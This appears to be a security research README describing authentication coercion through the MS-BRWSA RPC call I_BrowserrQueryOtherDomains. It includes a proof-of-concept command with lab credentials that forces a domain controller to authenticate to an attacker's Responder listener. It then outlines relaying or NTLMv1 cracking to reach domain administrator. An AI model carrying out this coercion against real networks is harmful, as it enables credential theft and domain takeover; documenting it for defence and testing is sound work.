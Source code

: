 # MS-BRWSA - Remote call to I_BrowserrQueryOtherDomains (opnum 2)

## Summary

+ **Protocol**: [[MS-BRWSA]: Common Internet File System (CIFS) Browser Auxiliary Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brwsa/5995d2f2-fff1-40af-9100-ca67794d50a5)

+ **Protocol UUID**: 6bffd098-a112-3610-9833-012892020162

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `"\pipe\browser"`

+ **Function name**: [`I_BrowserrQueryOtherDomains`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brwsa/3fdb5c28-c61b-49d0-bd0f-0a704f7dc507)

+ **Function operation number**: `2`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `"\pipe\browser"` and bind to the desired [`MS-BRWSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brwsa/5995d2f2-fff1-40af-9100-ca67794d50a5) protocol (with uuid `6bffd098-a112-3610-9833-012892020162` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-BRWSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brwsa/5995d2f2-fff1-40af-9100-ca67794d50a5) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `"\pipe\browser"` This pipe is connected to the protocol [[MS-BRWSA]: Common Internet File System (CIFS) Browser Auxiliary Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brwsa/5995d2f2-fff1-40af-9100-ca67794d50a5) and allows to call RPC functions of this protocol. We will then call the remote [`I_BrowserrQueryOtherDomains`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brwsa/3fdb5c28-c61b-49d0-bd0f-0a704f7dc507) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
I_BrowserrQueryOtherDomains('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS I_BrowserrQueryOtherDomains(
   [in, string, unique] BROWSER_IDENTIFY_HANDLE ServerName,
   [in, out] LPSERVER_ENUM_STRUCT InfoStruct,
   [out] LPDWORD TotalEntries
 );
```

## References

+ Documentation of protocol [MS-BRWSA]: Common Internet File System (CIFS) Browser Auxiliary Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brwsa/5995d2f2-fff1-40af-9100-ca67794d50a5

+ Documentation of function `I_BrowserrQueryOtherDomains`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brwsa/3fdb5c28-c61b-49d0-bd0f-0a704f7dc507
